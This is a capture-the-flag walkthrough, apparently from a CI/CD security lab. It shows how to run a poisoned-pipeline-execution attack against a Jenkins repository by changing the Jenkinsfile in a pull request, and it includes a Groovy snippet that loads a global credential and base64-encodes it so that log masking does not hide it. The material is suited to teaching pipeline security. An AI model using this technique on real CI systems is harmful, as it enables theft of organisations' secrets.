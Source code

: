 Create a pull request and execute a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/) attack against the _Wonderland/white-rabbit_ repository to steal the _flag1_ secret, which is stored in the Jenkins credential store with the Global scope - meaning it’s accessible to any pipeline on the Jenkins instance.

1. Clone the _Wonderland/white-rabbit_ repository.
2. Checkout to a new branch.

```shell
git checkout -b challenge1
```

3. Modify the Jenkinsfile to load _flag1_, and print it to the Jenkins build console output which you have access to (encode it so it won’t be masked), or send it to a host you control.

    Under “environment”, load the secret:

```groovy
stage ('Install_Requirements') {
    steps {

        withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
            sh '''
                echo $flag1 | base64
            '''                 
        }
```

4. Push the changes to the remote branch and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the secret.